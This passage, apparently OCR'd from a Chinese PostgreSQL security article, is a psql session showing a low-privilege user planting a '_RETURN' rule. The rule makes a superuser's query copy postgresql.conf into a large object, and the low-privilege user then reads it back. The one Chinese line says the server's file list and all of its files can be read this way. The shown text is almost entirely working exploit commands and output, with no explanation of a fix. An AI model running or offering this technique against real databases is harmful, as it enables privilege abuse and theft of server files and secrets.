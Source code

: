 列出了文件列表，你可以把所有的文件都读进来。  
  
```  
postgres=> select lo_create(2);  
 lo_create   
-----------  
         2  
(1 row)  
  
postgres=> drop view v2;  
DROP VIEW  
postgres=> create table v2(id int);  
CREATE TABLE  
postgres=> create rule "_RETURN" as on select to v2 do instead select 1 as id from (select lowrite(lo_open(2,131072), pg_read_binary_file('postgresql.conf'))) t;  
CREATE RULE  
postgres=> \c postgres postgres  
You are now connected to database "postgres" as user "postgres".  
postgres=# select * from v2;  
 id   
----  
  1  
(1 row)  
postgres=# \c postgres digoal  
You are now connected to database "postgres" as user "digoal".  
postgres=> select convert_from(loread(lo_open(2,262144),100000),'utf8');  
                                                                                 convert_from                                                                                    
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------  
 # -----------------------------                                                                                                                                              +  
 # PostgreSQL configuration file                                                                                                                                              +  
 # -----------------------------                                                                                                                                              +  
 #                                                                                                                                                                            +  
 # This file consists of lines of the form:                                                                                                                                   +  
 #                                                                                                                                                                            +  
 #   name = value                                                                                                                                                             +  
 #                                                                                                                                                                            +  
 # (The "=" is optional.)  Whitespace may be used.  Comments are introduced with                                                                                              +  
 # "#" anywhere on a line.  The complete list of parameter names and allowed                                                                                                  +  
 # values can be found in the PostgreSQL documentation.                                                                                                                       +  
 #                                                                                                                                                                            +  
 # The commented-out settings shown in this file represent the default values.                                                                                                +  
 # Re-commenting a setting is NOT sufficient to revert it to the default value;                                                                                               +  
 # you need to reload the server.                                                                                                                                             +  
 #                                                                                                                                                                            +  
 # This file is read on server startup and when the server receives a SIGHUP                                                                                                  +  
```
